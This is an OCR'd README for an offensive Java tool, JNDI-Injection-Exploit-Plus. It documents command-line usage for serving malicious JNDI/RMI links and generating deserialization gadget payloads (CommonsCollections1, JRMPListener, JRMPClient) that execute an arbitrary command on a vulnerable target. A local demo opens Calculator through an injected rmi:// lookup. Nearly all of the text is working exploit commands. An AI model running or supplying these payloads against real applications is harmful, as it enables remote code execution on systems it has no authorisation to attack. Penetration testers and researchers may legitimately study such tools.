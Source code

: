 ```shell
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar [-C] [command] [-D] [Gadget] [-O] [base64/hex]
```

where:
- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-D** - The deserial Gadget payload name.
- **-O** - (Optional) The deserial output type, default is base64

## Deserialization Exploits

### JRMP

- JRMPListener

```shell
java -cp JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar exploit.JRMPListener <port> CommonsCollections1 calc
```

- JRMPClient

```shell
java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "<ip>:<port>" -D "JRMPClient" -O base64
```

## Examples

### JNDI Links

Local demo:

1. Start the tool like this:

   ```shell
   $ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
   ```

    Screenshot:

   ![](./img/1.png)

2. Assume that we inject the JNDI links like rmi://ADDRESS/remoteExploit8 generated in step 1 to a vulnerable application which can be attacked by JNDI injection.

   In this example, it looks like this:

   ```java
   class Test{
       public static void main(String[] args) throws Exception{
           InitialContext ctx = new InitialContext();
           ctx.lookup("rmi://127.0.0.1:1099/remoteExploit8");
       }
   }
   ```
